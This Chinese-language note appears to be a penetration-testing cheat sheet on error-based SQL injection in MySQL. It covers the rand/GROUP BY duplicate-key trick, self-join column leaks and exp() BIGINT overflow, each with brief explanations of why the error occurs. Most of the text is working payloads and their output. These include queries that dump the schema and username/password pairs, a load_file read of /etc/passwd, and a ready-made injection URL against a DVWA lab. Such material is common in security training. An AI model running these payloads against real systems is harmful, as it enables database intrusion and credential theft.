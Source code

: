 # sql inject 回显报错

## concat(*) + rand + group by

```
SELECT+1+FROM+(select+count(*),concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))a+from+information_schema.tables+group+by+a)b--
```

#### 分析

本质是group by语句的报错。group by语句报错的原因是floor(rand(0)*2)的不确定性，即可能为0也可能为1,(group by key的原理是循环读取数据的每一行，将结果保存于临时表中。读取每一行的key时，如果key存在于临时表中，则不在临时表中则更新临时表中的数据；如果该key不存在于临时表中，则在临时表中插入key所在行的数据。group by floor(random(0)*2)出错的原因是key是个随机数，检测临时表中key是否存在时计算了一下floor(random(0)*2)可能为0，如果此时临时表只有key为1的行不存在key为0的行，那么数据库要将该条记录插入临时表，由于是随机数，插时又要计算一下随机值，此时floor(random(0)*2)结果可能为1，就会导致插入时冲突而报错。即检测时和插入时两次计算了随机数的值

* 主要是rand和group+by的冲突。获取的值不确定又可重复,同时又要来操作结果

> RAND() in a WHERE clause is re-evaluated every time the WHERE is executed.You cannot use a column with RAND() values in an ORDER BY clause, because ORDER BY would evaluate the column multiple times.             
说的是不可以作为ORDER BY的条件字段, 同理也不可以为group by的.

故：a为：concat(floor(rand(0)*2),(select+concat(0x5f,database(),0x5f,user(),0x5f,version())))

有rand参与，后面又出现group+by+a语句，故会爆出
```
Duplicate entry 'XXXXXXXXXX' for key 'group_key'
```
之类的错误。而这里的“'XXXXXXXXXX”就是 **0x5f,database(),0x5f,user(),0x5f,version()**的内容，这样子就可以获取到数据库名，用户名和数据库版本。

* 1.floor是取整数，如果没有这个，那么RAND(0)*2将是一个很长的小数，不会是 会重复的数。

* 2.rand(0)*2是取0到2的随机数，如果去掉或换成1，加上floor取整结果都是0，不会是不确定的数。当然,使用 *3，*4, ... 都是可以的

* 3.如果没有重新刷一次结果（例子中用的是count(*)来统计结果）,单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),不会报错。

正常的：
```
SELECT id FROM tuser WHERE id=1 UNION SELECT 1 FROM (SELECT CONCAT(FLOOR(RAND(0)*2),(SELECT CONCAT(0x5f,DATABASE(),0x5f,USER(),0x5f,VERSION())))a FROM information_schema.tables GROUP BY a)b--
```

所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）如：

报错的：
```
SELECT id FROM tuser WHERE id=1 UNION SELECT 1 FROM (SELECT COUNT(*),CONCAT(LEFT(RAND(),3),(SELECT CONCAT(0x5f,DATABASE(),0x5f,USER(),0x5f,VERSION())))a FROM information_schema.tables GROUP BY a)b--
```


## join报错注入

#### 原理

**利用表自己join自己。来达到列名相同来爆列名**

以爆mysql.user表为例爆字段名为例

* 1.爆第一个列名

```
mysql> select * from(select * from mysql.user a join mysql.user b)c;
ERROR 1060 (42S21): Duplicate column name 'Host'
```

* 2.爆第二个列名(使用using)

```
mysql> select * from(select * from mysql.user a join mysql.user b using(Host))c; 
ERROR 1060 (42S21): Duplicate column name 'User'
```

* 3.爆第三列名(还是使用using，参数是前两个列的列名)

```
mysql> select * from(select * from mysql.user a join mysql.user b using(Host,User))c;
ERROR 1060 (42S21): Duplicate column name 'Password'
```

* ...

* 爆完列名后，使用完整的列名，就是用户数据了


## 数字溢出

#### 参考

- [乌云：使用exp进行SQL报错注入][1]
- [基于BIGINT溢出错误的SQL注入][2]

[1]: http://drops.wooyun.org/tips/8166
[2]: http://drops.wooyun.org/web/8024

#### exp --适用于MySQL5.5.5及以上版本

#### 演示

* select ~(select version());
```
mysql> select ~(select version());
+----------------------+
| ~(select version())  |
+----------------------+
| 18446744073709551610 |
+----------------------+
```

* select exp(~(select * from(select user())x));
```
mysql> select exp(~(select * from(select user())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'
```

#### 注出数据

* 得到表名

```
select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
```

* 得到列名

```
select exp(~(select*from(select column_name from information_schema.columns where table_name='users' limit 0,1)x));
```

* 检索数据

```
select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));
```

* dump数据

```
exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))

http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x))-- -&Submit=Submit#
```

* 读文件

```
select exp(~(select*from(select load_file('/etc/passwd'))a));
```

每次最多只能读 13 行

#### insert update delete 都可以

```
mysql> insert into users (id, username, password) values (2, '' | exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x)), 'Eyre');
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '000
newdb::users::id
newdb::users::username
newdb::users::password' from dual)))'
```


